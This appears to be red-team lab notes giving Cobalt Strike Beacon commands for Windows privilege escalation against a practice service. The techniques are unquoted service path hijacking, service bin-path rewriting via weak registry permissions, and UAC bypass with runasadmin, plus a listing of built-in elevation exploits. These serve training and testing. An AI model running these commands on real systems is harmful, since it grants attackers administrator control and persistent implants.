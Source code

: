 

#### Unquoted Service Path

Enumerate available services
```powershell
sc_enum
```

> When abusing services, the dedicated svc.exe payloads must be used.

Query service and view permissions on file path
```powershell
sc_qc BadWindowsService

cacls "C:\Program Files\Bad Windows Service"
```

Upload DNS payload and rename to abuse unquoted service path
```powershell
cd C:\Program Files\Bad Windows Service

upload C:\Payloads\dns_x64.svc.exe

mv dns_x64.svc.exe Service.exe
```

Restart service
```powershell
sc_stop BadWindowsService
sc_start BadWindowsService
```

Checkin on new beacon
```powershell
checkin
```

Remove payload
```powershell
rm Service.exe
```

#### Service Registry Permissions

Enumerate permissions of the service's regsitry key and view current bin path
```powershell
powerpick Get-Acl -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\BadWindowsService' | fl

sc_qc BadWindowsService
```

Stop the service
```powershell
sc_stop BadWindowsService
```

Upload payload to writeable directory
```powershell
cd C:\Windows\Tasks

upload C:\Payloads\dns_x64.svc.exe
```

Change bin path to the payload
```powershell
sc_config BadWindowsService C:\Windows\Tasks\dns_x64.svc.exe 0 2
```

Start the service
```powershell
sc_start BadWindowsService
```

Restore the bin path and remove payload
```powershell
sc_config BadWindowsService "C:\Program Files\Bad Windows Service\Service Executable\BadWindowsService.exe" 0 2

rm  C:\Windows\Tasks\dns_x64.svc.exe
```



#### UAC Bypass

> Right-click the Beacon, select **Access > One-liner** and select the tcp-local listener.

Execute UAC bypasss
```powershell
runasadmin uac-cmstplua [ONE-LINER]
```

Connect to beacon
```powershell
connect localhost 1337
```

More can be found here
```powershell
beacon> runasadmin

Beacon Command Elevators
========================

    Exploit                         Description
    -------                         -----------
    ms16-032                        Secondary Logon Handle Privilege Escalation (CVE-2016-099)
    uac-cmstplua                    Bypass UAC with CMSTPLUA COM interface
    uac-eventvwr                    Bypass UAC with eventvwr.exe
    uac-schtasks                    Bypass UAC with schtasks.exe (via SilentCleanup)
    uac-token-duplication           Bypass UAC with Token Duplication
    uac-wscript                     Bypass UAC with wscript.exe
```